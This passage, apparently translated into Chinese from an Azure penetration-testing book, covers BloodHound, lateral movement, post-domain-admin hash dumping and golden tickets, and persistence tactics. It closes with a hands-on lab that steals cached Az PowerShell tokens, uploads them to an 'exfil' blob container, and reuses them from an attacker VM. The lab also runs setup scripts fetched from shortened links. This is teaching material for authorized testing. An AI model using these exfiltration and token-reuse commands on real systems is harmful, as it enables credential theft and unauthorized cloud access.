使用我们之前的示例，攻击者可以收集域数据，并通过使用 BloodHound 轻松找到从 Kerberoasting 攻击到域管理员权限的路径。

##### BloodHound 信息

**创建者：** Andrew Robbins（Twitter：@wald0）、Rohan Vazarkar（Twitter：@CptJesus）和 Will Schroeder（Twitter：@harmj0y）

**开源或商业：** 开源项目；提供商业选项

**GitHub 仓库：** `https://github.com/BloodHoundAD/BloodHound`

**语言：** PowerShell, JavaScript

得益于工具的最新更新，BloodHound 还支持查找本章中提到的许多 Azure 攻击路径。能够绘制 Azure 角色和资源关系图对于识别在 Azure 中横向移动和提升权限的方法非常有帮助。虽然我们不会介绍该工具的完整使用方法，但它是攻击 Active Directory 的最强大工具之一，强烈推荐用于 Active Directory 测试。

**重要说明**

由于为 BloodHound 收集 Azure 数据而搭建实验室需要订阅中的一些专用资源分配，因此我们选择省略该工具的实验。如果你想查看它收集的一些数据，请随时运行前几章中的任何构建脚本，运行 AzureHound 收集工具，然后将数据导入 BloodHound。

虽然这超出了本书的范围，但有大量工具可用于单独收集与 BloodHound 收集的信息类似的片段。如果操作得当，在渗透测试期间，这种分片收集域信息可能比 BloodHound 收集方法更不明显，但它需要对数据进行更多手动解释（以及对攻击路径的特定知识）才能识别出 BloodHound 找到的相同路径。

#### 用于沿提升路径枢转的工具

在明确了在本地环境中枢转的路径后，我们需要一些工具来帮助我们自动化此过程，使工作更轻松。值得庆幸的是，许多常见的提升操作可以从非域加入的系统完成，无需自定义工具。然而，在评估期间保持低调的最佳方法之一是通过使用原生系统管理工具（RDP、PS Remoting 等）*脱离 LAN* 运行。

由于原生 Windows 工具没有内在支持凭据收集和进程迁移等功能，因此可能需要额外的工具来完成我们的目标。由于这些工具各自都可能有一本专著，我们只在此简要介绍其中一些，并留给读者自行学习这些工具：

- Metasploit
- CrackMapExec
- Cobalt Strike
- Empire
- Red Team Toolkit
- Covenant

这些工具都可用于域中的横向移动和提升。虽然工具并不总是必需，但它们可以帮助简化一些工作。

虽然这始终会受到环境中可用路径的影响，但在提升期间我们在域环境中在系统之间枢转时，通常会使用以下方法：

- 获取域或本地凭据。
- 使用凭据或漏洞利用获得对系统的本地管理员访问权限。
- 攻破系统上可用的凭据。
- 识别可枢转到的额外目标。
- 横向移动到额外目标，并重新开始循环。

一旦在上述过程中收集到域管理员凭据，我们就进入新阶段，在该阶段中我们收集特权 Azure 用户的凭据并使用它们枢转到 Azure 租户。

接下来，我们将介绍在域内提升后该怎么做。

#### 域提升和横向移动后的通用提示

域管理员权限不应是内部网络渗透测试的终点。在域管理员处停止，你只是表明你完全控制了域，但没有展示这些权限的潜在影响。在内部渗透测试中，攻击者可以利用这些特权访问敏感数据存储，并强调攻击者提升权限的潜在危险。

同样的原理也适用于 Azure 渗透测试。获得域管理员权限实际上应该只是我们作为特权用户重新进入 Azure AD 环境的立足点。由于 Azure AD 环境与主 Active Directory 环境紧密相连，因此有许多获取对 Active Directory 帐户控制的方法，从而使我们能够枢转到 Azure。

获得域管理员权限后的第一步应该是从域控制器收集域 NTLM 哈希。这将为我们带来以下机会：

- 破解收集到的哈希以获得明文凭据
- 使用密码哈希进行 **Pass-the-Hash (PtH)** 攻击
- 使用域 `krbtgt` 帐户哈希通过黄金票据攻击在域中保持持久性

由于转储所有域哈希可能会有点嘈杂，你可能希望针对特定帐户（krbtgt、域/全局管理员等）进行哈希转储。此外，负责你的域的人员可能不希望重置每个域密码，因此在转储域哈希时做出合理的选择。

为了演示的目的，让我们假设我们已经收集了 Azure 租户中 Global Administrator 帐户的所有域 NTLM 哈希。如果我们能够破解其中任何一个哈希，我们可能能够使用明文凭据以特权角色枢转到 Azure 租户。

你可能会认为所有这些特权帐户都受 MFA 和条件访问策略保护。这并不总是如此。虽然强制所有帐户使用 MFA 变得越来越普遍，但作者经常遇到用户被分配特权 Azure AD 角色，但从未为该帐户配置 MFA 的情况。你的情况可能有所不同，但值得一试。

或者，我们可以使用收集到的域凭据（明文或哈希）用于特权用户，以访问 Azure 管理员使用的系统。如前所述，Azure 令牌可以存储在用户工作站的 `.Azure` 配置文件文件夹中。通过使用其中一个被攻破的特权帐户访问工作站，我们可能能够冒充 Azure 管理员用户的令牌。我们将在下一章深入介绍此过程，作为在环境中获得持久性的方法。

最后，在拥有管理员权限的情况下，我们可能可以控制用于 Azure 环境的 MFA 系统。如果使用第三方（Okta、Duo 等）MFA 系统，特权域用户可能可以控制其他用户的令牌。通过破解 Global Administrator 的密码并为其授予新的 MFA 令牌（在你的设备上），你可能能够接管其 Azure 帐户。


既然我们已经审查了使用本地资源进行权限提升的选项，现在让我们清理本章中为这些场景创建的资源。

#### 动手练习 – 清理所有者权限利用场景

在这个最后的练习中，我们将使用一个清理脚本来自动删除本章中为这些场景设置的资源。以下是我们将在本练习中完成的任务：

- 从 GitHub 下载清理脚本。
- 运行脚本以删除为这些场景创建的对象和资源。

以下是完成这些任务所需的步骤：

- 1. 打开 Web 浏览器并浏览到 Azure 门户 (https://portal.azure.com)。使用 azureadmin 凭据登录。
- 2. 在 Azure 门户中，单击 Azure 门户右上角的 Cloud Shell 图标。选择 PowerShell：


3. 在 Cloud Shell 窗格中的 PowerShell 会话中，运行以下命令下载一个脚本，以清理本章中构建的场景。同时验证下载是否成功：

```
PS C:\> Invoke-WebRequest https://bit.ly/owner-scenario-cleanup -O owner-scenario-cleanup.ps1
PS C:\> Get-ChildItem
```

以下是它的截图：



图 7.22 – 下载脚本的结果

- 4. 运行已下载的脚本，使用以下命令删除为本练习创建的对象和资源：

```
PS C:\> ./owner-scenario-cleanup.ps1
```

等待脚本执行完成。这大约需要 8 分钟：



图 7.23 – 运行清理脚本的结果

恭喜！您已经完成了本章中的所有练习场景，并成功地从您的订阅中删除了所设置的资源。

#### 摘要

在本章中，我们回顾了攻击者可能利用订阅所有者角色，在租户中提升到 Azure AD 特权角色的多种方式。我们还回顾了攻击者如何利用 Azure AD 访问权限来获得租户内订阅的权利。虽然在 Azure 渗透测试中并非总是需要这样做，但在订阅和 Azure AD 之间进行横向移动可以是在环境中展示权限提升全面影响的最佳方式之一。

在下一章（也是最后一章）中，我们将展示如何利用这种访问权限在 Azure 租户的各个级别为自己创造持久化机会。从虚拟机一直到 Azure AD，我们将回顾在 Azure 租户中持久化访问的可用选项。

#### 在 Azure 环境中实现持久化

在最后一章中，我们将介绍攻击者在 Azure 环境中持久化访问的不同方式。持久化访问可以在 Azure 租户的多个级别建立，它能让你在长期参与期间持续访问敏感资源。此外，本章对于试图识别或阻止攻击者访问 Azure 环境的人来说，也应该是一个很好的参考资料。

在本章中，我们将涵盖以下主要主题：

- 理解持久化的目标
- 在 Azure 订阅中实现持久化
- 在 Azure AD 租户中实现持久化

##### 理解持久化的目标

持久化是一个相当简单的概念。一般来说，我们希望保持对环境的访问，以便能够抵御任何主动移除我们对环境访问的企图。虽然可以用一整章来专门论述与持久化相关的概念性想法，但我们这里没有篇幅这样做。相反，我们将提供一些关于持久化的通用指南，供你在本章中思考。然后，我们将把这些想法应用到 Azure 环境的不同领域。

#### 做好被发现的心理准备

在任何你想在环境中持久化的场景下，你都应该假设你的存在会被注意到，并且你的访问权限会被移除。你的初始访问途径应始终被视为 *短期资源*，它们能让你建立额外的持久化选项。虽然你可能可以通过这些初始途径维持访问，但它们很可能是最先暴露的。

#### 准备多个通道

通过为环境保留多个访问选项，你不仅为自己提供了恢复被移除访问的选项，还拥有了多个通道，可以混淆对环境中进行事件响应的任何人。通过使用你愿意舍弃的通道制造更大的动静，可能更容易将你的一些活动隐藏在另一个账户或服务中。

让我们看一些示例：

- 使用 Azure AD 用户通过“运行命令”功能直接执行 VM 命令。这是一种相当明显的操作，很容易追踪到单个用户。
- 通过自动化帐户 Runbook 使用“运行命令”功能并以“运行方式帐户”间接执行 VM 命令。这会被“运行方式帐户”掩盖，因此可能不太明显。

同时拥有这两种命令执行选项，可以让你在租户中通过其他有效操作来掩盖你的活动。其中任一选项也可能是一个明显的信号，可以用来转移事件响应团队的注意力，同时你完成其他操作。

#### 使用长期和短期通道

通过使用长期持久化通道来创建或恢复对短期通道的访问，你可以在需要时舍弃短期资源。长期持久化方法应具有特权（订阅所有者、AAD 租户权限等），并允许你创建新资源或向租户分配新权利。这些才是真正能帮助你保持或恢复对租户整体访问的持久化方法。长期通道还应谨慎使用，因为它们对持久化至关重要。它们使用得越少，产生的噪音就越少。

#### 在多个级别拥有多个持久化选项

对于你创建的任何持久化通道，最好在每个级别都拥有多个短期和长期选项。这可以包括多个资源、用户、脚本、可执行文件以及你可能正在使用的任何其他工具。通过在多个级别为自己提供选项，即使访问丢失，你也能够在多个级别重新建立访问。这里的目标是让访问具有粘性，从而使得移除你访问权限的尝试是可逆的。

> **重要说明**
> 与任何优秀的渗透测试一样，文档记录是关键。你在订阅中添加的任何持久化选项（或重大状态更改）都需要在创建时记录在案。如果完全失去对环境的访问，且无法清理你的持久化方法，你可能会遇到一个非常愤怒的环境所有者，他需要做一些清理工作。此外，测试的 **交战规则（RoE）** 应概述测试人员出于权限提升、持久化或其他目的对环境进行任何更改的能力。

既然我们已经理解了在 Azure 环境中实现持久化的总体目标和方法，接下来让我们看看在 Azure 订阅和管理组中实现持久化的选项。

#### 在 Azure 订阅中实现持久化

在 Azure 订阅中，可以通过订阅中的多个不同服务建立持久化。这包括订阅（或管理组）级别的 Azure AD 帐户访问权限，一直到资源级别。由于对更广泛订阅的访问将由你的身份（用户帐户、服务主体、托管标识）控制，因此你将需要拥有多个级别的选项来维护（或重新获得）对这些身份的访问。

首先，我们将研究如何为经过身份验证的用户收集现有的订阅令牌。这是一种非常实用的方式，可以通过正常的管理员用户会话保持访问。


##### 从系统中窃取凭据

根据你的作用范围，你可能会发现自己处于内部网络环境中或在 Azure VM 上，试图在租户中持久化。虽然我们可以很容易地论证将你的权限提升到域管理员账户并入侵 AD 同步服务器，但这可能并不总是可行的选择。

对于更隐蔽的选项，你可能希望利用现有 Azure 用户的系统。一旦你进入 Azure 用户的系统，你有几个选择。

如果你有权访问实际的用户账户，你可能能够利用 Web 浏览器中现有的 Azure 门户会话。或者，系统也可能配置为使用直通单点登录（SSO），因此以用户身份在 Internet Explorer 中打开 https://portal.azure.com 可能会让你直接进入。

> **重要说明**
> 本文概述的技术已在 Lares 博客上由 *Lee Kagan* 撰写的以下文章中介绍：https://www.lares.com/blog/hunting-azure-admins-for-vertical-escalation/。
> 请参考该文章以获取有关此特定攻击的更多信息。

如果用户存在某些账户限制，例如多因素身份验证或条件访问策略，你最好的选择是从 Az CLI 和/或 Az PowerShell cmdlet 中导出任何现有的身份验证令牌。这些令牌通常存储在 Windows 操作系统客户端的 c:\Users\%USERNAME%\.Azure 目录中。请记住，你攻击的用户可能正在清理其系统上的缓存凭据，因此无法保证特定用户在其系统上存储了活动的 Azure 凭据。

#### 从管理员系统导出 PS/AZ 凭据

如果你无法访问明文用户账户凭据，你仍然可以查找 .Azure 文件夹中的现有活动令牌。这很可能需要你拥有对系统的本地管理员访问权限，请记住这一点：



图 8.1 – 从管理员系统外泄缓存令牌

当用户使用 Azure PowerShell 身份验证到 Azure 时，用于登录的账户信息、活动订阅以及 OAuth 2.0 访问令牌会作为 PowerShell 对象保存在本地。这称为 Azure 上下文。此上下文可以导出并在其他系统上重用以进行未经授权的访问！上图突出显示了执行此操作的流程。

为防止身份验证上下文自动为本地用户保存，可以使用以下 PowerShell cmdlet：

```
Disable-AzContextAutosave -Scope CurrentUser
```

查看系统上现有凭据是否仍然有效的最简单方法是使用它们。简单的 Get-AzSubscription 或 az account list 应该能告诉你在当前上下文中有哪些可用内容。要导出此上下文，我们将使用 Save-AzContext Az PowerShell 命令将当前上下文写入文件。

在下一个动手练习中，你将逐步了解如何设置一个测试系统，你将用它来练习此场景。然后你将逐步了解令牌外泄流程，以便在另一台系统上重用令牌。

#### 动手练习 – 从已认证的 Azure 管理员系统窃取并重用令牌

在本练习中，我们将从已认证的 Azure 管理员用户的系统导出缓存令牌，并在我们的渗透测试 VM 上重用这些令牌。以下是本练习中我们将完成的任务：

- **任务 1：** 使用 Az PowerShell 模块向我们的 Azure 租户进行身份验证。
- **任务 2：** 确认访问权限（列出订阅）。
- **任务 3：** 使用 `Save-AzContext` 命令。
- **任务 4：** 将上下文文件复制到另一台系统以便在其他地方使用。

让我们开始：

1. 在 Cloud Shell 面板内的 PowerShell 会话中，运行以下命令下载并验证用于为本练习配置场景的脚本：

```
Invoke-WebRequest -Uri http://bit.ly/admin-token-theft-scenario
-OutFile admin-token-theft-scenario-windows.ps1
Get-ChildItem
```

以下屏幕截图显示了输出：



图 8.2 – 下载并验证脚本

2. 使用以下命令运行下载的脚本：

```
./admin-token-theft-scenario-windows.ps1
```

当提示输入密码时，输入 myPassword123 并按 Enter。等待部署完成。部署可能需要长达 20 分钟：



图 8.3 – 在提示时输入密码

##### 脚本做了什么？

脚本部署了以下资源：

- a. 一个名为 victimadminuser 的 Azure AD 用户账户。
- b. 一个分配了对你的 Azure 订阅的 Reader 角色的用户账户。
- c. 一台带有本地管理员用户 windowsadmin 的 Windows VM。VM 已安装 Azure PowerShell、7-Zip 和 HTTPie。
- d. 一个带有名为 exfil 的 blob 容器的存储账户。此账户将用于存储从 Windows Admin VM 外泄的凭据。

3. 脚本运行完成后，你将在输出部分看到本练习剩余部分所需的关键信息。将此信息复制到记事本文档中以供以后参考。你需要从输出部分获取六个值：

Azure Admin User：这是将从 Windows PC 窃取令牌的 Azure 管理员用户名。

Azure Admin User Password：这是将要窃取凭据的 Azure 管理员用户的密码。

**Windows VM Public IP：** 将从中窃取令牌的 Windows VM 的公共 IP。

**Windows VM Username：** 你将用于向 Windows VM 进行身份验证的本地用户。

**Windows VM User Password：** 你将用于向 Windows VM 进行身份验证的本地用户的密码。

**Exfiltration Storage Location：** 你将外泄被窃凭据到的 blob 容器，以及从中下载以便从你的渗透测试 VM 重用的位置：

```
Transcript started, output file is admin-token-theft-output.txt
################
##### Script Output #
################
Azure Admin User: victimadminuser@azurepentesting.com
Azure Admin User Password: myPassword123

Windows VM Public IP: 51.1***.d.31
Windows VM Username: windowsadmin
Windows VM User Password: myPassword123

Exfiltration Storage Location: https://pentest9498.blob.core.windows.net/exfil/ azureprofile.zip?sv=2019-07-07&sig=7nzh42618BAexrf4bgBG2F%2BPBYVMMbFRpOBxJutf ui3D3s&t=2021-01-25T19%3A31%3A22Z&se=2021-01-31T19%3A31%3A22Z&srt=sco&ss=b&sp =racupwdl
Transcript stopped, output file is /home/david/admin-token-theft-output.txt
Deployment Ended 01/25/2021 19:39:17
```

图 8.4 – 复制脚本的输出

4. 在你的 PC 上打开一个 RDP 客户端并连接到你在输出部分（步骤 3）中记下的 Windows VM Public IP。当提示进行身份验证时，使用 **Windows VM Username** 值作为用户名，使用 **Windows VM User Password** 值作为密码：

图 8.5 – 通过 RDP 登录 VM

5. 在对 Windows VM Public IP 的 RDP 会话中，打开一个 PowerShell 控制台并使用以下命令向 Azure 进行身份验证：

```
Connect-AzAccount
```

6. 当提示进行身份验证时，使用 Azure Admin User 值（来自脚本的输出）作为用户名，使用 Azure Admin User Password 值（同样来自脚本的输出）作为密码：



图 8.6 – 使用“Azure Admin User”值进行身份验证

以下是身份验证过程完成后输出的内容：



图 8.7 – 身份验证输出

7. 使用以下命令验证身份验证：

```
Get-AzResourceGroup
```

你的结果可能有所不同，但以下是命令及其输出的屏幕截图：




图 8.8 – 验证身份验证和访问

- 8. 在此阶段，我们可以假装自己是受害者管理员用户并保存当前上下文以供以后使用。我们（作为攻击者）随后会将此文件复制到我们的系统。或者，想象一下你是一个在该系统上拥有活动会话的攻击者，并且你想要保存当前上下文以便外泄到另一个系统。

使用以下命令保存当前身份验证上下文并验证上下文是否已保存：

```
Save-AzContext -Path azureprofile.json
```

```
Get-ChildItem azureprofile.json
```

以下是命令及其输出的屏幕截图：



图 8.9 – 保存身份验证上下文

- 9. 使用以下命令压缩已保存的身份验证上下文：

```
7z a azureprofile.zip azureprofile.json
```

以下是命令及其输出的屏幕截图：



图 8.10 – 从身份验证上下文创建压缩的 ZIP

- 10. **将压缩的身份验证上下文外泄**到之前由脚本创建的 blob 容器中，使用以下 HTTPie 命令。 将 `<blob_container_url>` 占位符替换为从脚本输出中复制的 **Exfiltration Storage Location** 值。 **确保在粘贴前没有换行符。** 你应该会收到 HTTP 201 响应：

```
http PUT "<blob_container_url>" "@azureprofile.zip" "x-ms-blob-type: BlockBlob"
```

以下是命令及其输出的屏幕截图：



图 8.11 – 将提取的凭据上传到 Azure Blob Storage

前面的命令使用了 HTTPie 工具，我们在第 2 章《构建你自己的环境》中介绍了它。以下是相同命令的 PowerShell 等效命令：

```
Invoke-WebRequest -Method 'PUT' -Uri '<blob_container_url>' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"}
```

- 11. 通过在 Azure 门户中浏览来验证压缩的身份验证上下文现在是否存在于存储帐户中。存储帐户的命名格式为 pentestXXXX（XXXX 是由部署脚本生成的随机数字）：



图 8.12 – 验证外泄的凭据

- 12. 在你的 pentest VM 中，打开一个 PowerShell 控制台并使用以下命令验证你当前是否没有连接到受害者的 Azure 环境。你应该会收到错误消息，如以下屏幕截图所示。

如果你已通过身份验证，请使用 `Disconnect-AzAccount` 注销：

```
Get-AzResourceGroup
```

以下是命令及其输出的屏幕截图：



图 8.13 – 验证未经过身份验证的会话

- 13. 使用以下命令下载并验证外泄的上下文文件。 将 `<blob_container_url>` 占位符替换为从脚本输出中复制的 Exfiltration Storage Location 值：

```
Invoke-WebRequest -Uri "<blob_container_url>" -OutFile azureprofile.zip
```

```
Get-ChildItem azureprofile.zip
```

以下是命令及其输出的屏幕截图：



图 8.14 – 下载提取的凭据

- 14. 使用以下命令提取下载的文件并验证提取的文件：

```
7z e azureprofile.zip
```

```
Get-ChildItem -Filter azureprofile.*
```

以下是第一个命令及其输出的屏幕截图：



图 8.15 – 提取下载的压缩 ZIP

以下屏幕截图是第二个命令及其输出：



图 8.16 – 查看提取的凭据

- 15. 使用以下命令将身份验证上下文恢复到你的 pentest VM：

```
Import-AzContext -Path ./azureprofile.json
```

以下是命令及其输出的屏幕截图：



图 8.17 – 将上下文导入到当前会话

- 16. 通过运行使用被盗管理员身份验证上下文的命令来验证上下文是否已成功应用于你的 pentest VM。此时，你已验证身份验证上下文可以从管理员系统窃取、导出并从攻击者系统重用：

```
Get-AzResourceGroup
```

以下是命令及其输出的屏幕截图。如果收到错误消息，请尝试打开一个新的 PowerShell 窗口：



图 8.18 – 使用外泄的凭据验证 Azure 访问

- 17. 现在我们已完成此练习，请返回 Azure Cloud Shell 并运行以下命令以下载清理脚本并验证下载：

```
Invoke-WebRequest -Uri http://bit.ly/admin-token-theft-scenario-cleanup -OutFile admin-token-theft-scenario-windows-cleanup.ps1
```

```
Get-ChildItem
```

至此，你已成功从管理员系统外泄 Azure 凭据并将其导入到你的系统。接下来，我们将介绍在单个 Azure 服务集合中保持持久性的可用选项。这些服务可以允许在多个层面上使用远程访问，并可以提供持久的资源和租户访问。

